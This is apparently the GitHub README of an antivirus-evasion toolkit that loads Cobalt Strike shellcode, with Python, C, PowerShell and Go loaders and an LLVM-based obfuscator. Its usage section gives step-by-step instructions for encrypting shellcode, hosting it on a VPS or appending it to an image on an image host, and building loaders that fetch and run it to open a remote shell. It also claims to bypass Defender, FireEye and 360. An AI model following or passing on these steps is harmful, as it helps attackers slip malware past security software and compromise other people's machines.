 ```yaml
---
project: CS-Loader
stars: 838
description: CSLoader is a general purpose obfuscation and anti-virus tool based on a reimplementation of the llvm project obfuscator(https://github.com/obfuscator-llvm/obfuscator).
url: https://github.com/Gality369/CS-Loader
---
```


CS-Avoid-killing
================

Chinese README

Overall, malware identification through the application's binary feature strings is still the most commonly used static analysis by antivirus software, while dynamic analysis (sandboxing, virtual machines, etc.) can be bypassed by anti-debugging, anti-sandboxing, and other techniques, so minimizing the binary features of a malicious program is still an important means of avoiding detection and killing.

CS evasion, including both Python and C versions (Tested: Python packaged version has bugs on Windows 10, not working, but works fine on Windows 7)

In addition to using a specific language to obfuscate binary features, it is also possible to implement a generic obfuscator to obfuscate arbitrary programs at the binary level. The generic obfuscator implemented in this project is an LLVM-17 based obfuscator that takes advantage of LLVM's new pass implementation plug-in feature to enable code obfuscation for multiple languages and platforms.

-   V4.0: A general-purpose code obfuscator has been implemented, which can obfuscate the binary of any program with the help of LLVM, and is theoretically a general-purpose method to fight against antivirus static scanning. The Generic\_obfuscator is a rewrite of obfuscator ref: https://github.com/obfuscator-llvm/obfuscator
    
-   V3.1 Added Go version (can bypass FireEye/360/Defender).
    
-   V3.0: Attempting to integrate more evasion techniques (planning to research process injection/file bundling to see how well they evade protection).
    
-   V2.0: Developed an online evasion platform (Completed)
    

> PS: In practical use, I found that a graphical interface is not ideal for integration with other tools, while command-line interfaces are more flexible and extensible.
> 
> Regarding my online evasion platform, I don't plan to open-source it at this time because the technology is still in its early stages. If anyone is interested in trying it out, feel free to contact me.

-   V2.0: Develop a graphical user interface
    
-   V1.7: Added PowerShell evasion (Completed)
    
-   V1.5: Added C version of CS evasion (Completed)
    
-   V1.0: Currently, it can bypass Defender/FireEye's static and dynamic protection. 360 hasn't been tested yet. I don't want to install the full 360 suite, but you can test it yourself.
    

Dependencies
------------

Generic Obfuscator:

-   llvm-17：

```
git clone --depth 1 -b release/17.x https://github.com/llvm/llvm-project.git
mkdir build
cmake -G Ninja -DLLVM_ENABLE_PROJECTS="clang;lld" -DLLVM_TARGETS_TO_BUILD="X86;ARM;AArch64" -DCMAKE_BUILD_TYPE=Release -DLLVM_INCLUDE_TESTS=OFF -DLLVM_ENABLE_RTTI=ON -DLLVM_OBFUSCATION_LINK_INTO_TOOLS=
ON -DCMAKE_INSTALL_PREFIX=./build/ ../llvm-project/llvm
ninja -j8
ninja install
```

Python:

-   Python 2
-   PyInstaller
-   Requests

C: VS2019 should be sufficient

PowerShell: Tested on Windows 10 (PS 5.1), lower versions haven't been tested.

Go: Go

Installation
------------

Other versions are portable to use, just clone the project. `git clone https://github.com/Gality369/CS-Avoid-killing.git`

Howerver, Generic\_bfuscator need additionally installation：

```
cd Generic Obfuscator
mkdir build
cd build
cmake ..
make -j `nproc`
```

Usage
-----

1.  First, generate a C-format shellcode through CS: `Attacks -> Packages -> Payload Generator` Choose a listener and generate a C shellcode (essentially binary code).
    
2.  Python version:
    
    > 1.  Paste the generated shellcode into the shellcode variable in generator.py and provide a Key for RC4 encryption.
    > 2.  Run generator.py, the generated payload will be saved in payload.txt.
    > 3.  Upload payload.txt to your VPS. The loader will fetch the encrypted shellcode from the VPS and decrypt it locally for execution.
    > 4.  In PyLoader.py, fill in the path to the payload on your VPS and the Key you just set.
    > 5.  Package the file using `python pyinstaller.py -F -w PyLoader.py`. The executable will be in the dist folder inside the pyshellcode directory. Double-click to run and the host will go online.
    
3.  C version:
    
    > 1.  Input your own Key, shellcode length, and shellcode as required, then execute.
    > 2.  Copy the first line's number into the Base64ShellLen field in Loader, save the generated encrypted shellcode in payload.txt, and place it on the server. If the filename or path is different, modify the path in `char request[1024] = "GET /RC4Payload32.txt HTTP/1.1\r\nHost:";` accordingly.
    > 3.  In path, fill in the path to access the payload (e.g., /test/payload.txt).
    > 4.  Fill in your Key and VPS IP in Loader, then compile.
    > 5.  Run the compiled .exe to bring up the CS shell.
    
4.  PowerShell version:
    
    > 1.  Generate a PowerShell payload .ps1 in CS.
    > 2.  Run Python3 PSconfusion.py payload.ps1 AVpayload.ps1.
    > 3.  This version can bypass all static detections from current antivirus software. For dynamic detections, some CS modules may trigger detection when loading, and that will be explored further later.
    
5.  Go version:
    
    > 1.  Place a not-too-large image in the same folder.
    > 2.  Paste the generated shellcode into the shellcode variable in generator.py, and execute `python generator YourRC4key ImageName`. The shellcode will be appended to the end of the image.
    > 3.  Upload the image to an image hosting service (choose one that does not compress images to ensure the shellcode remains intact).
    

> 1.  Enter the image URL and your RC4 key into the corresponding fields in CS-Loader.go.
> 2.  Build the .exe using the command `go build -ldflags="-H windowsgui" CS-Loader.go` (you can compress it with UPX).
> 3.  Run the .exe and the CS shell will be active.

1.  Generic Obfuscator Version：
    
    > 1.  set `config/config.json` to enable different functions. (Please check `Generic_obfuscator/README.md` to get more information.)
    > 2.  run `<your-clang-17> -fpass-plugin=<your-generic_obfuscator.so>`
    

Notes
-----

1.  PyInstaller Installation Details:
    
    > The last version of PyInstaller that supports Python 2 is 3.6 (newer versions no longer support Python 2).
    > 
    > Website: https://github.com/pyinstaller/pyinstaller/releases
    > 
    > You also need to install pywin32: https://github.com/mhammond/pywin32
    
2.  Package in the target environment to avoid issues with different systems. Avoid using Python 3 for this project due to poor support for ctypes in Python 3, which can cause random bugs. Thanks to KingSF5 for fixing the Python 3 version (greatly appreciated~).
    
3.  C version testing: The C version works fine under X86Debug mode. In Release mode, there are unexplained bugs, and it may not work properly on some machines. Please test according to your needs.
    
4.  Do not select dynamic compilation, as it may cause the program to fail to run due to missing DLLs on the target machine.
    
5.  The method of loading PowerShell scripts is not discussed here, but some experts have already documented it well. Please search for it on Baidu.
    
6.  Before building the Go version, it is recommended to run `set GOARCH=amd64` and use a 64-bit shellcode. A 32-bit build may lead to errors related to missing functions in ntdll.dll, as reported by others: https://stackoverflow.com/questions/58649055/failed-to-find-rtlcopymemory-procedure-in-ntdll-dll-only-when-goarch-386
    
7.  For a detailed description of Generic Obfuscator, please refer to `Generic_obfuscator/README.md`, which provides a detailed description of the obfuscator and how to use it.
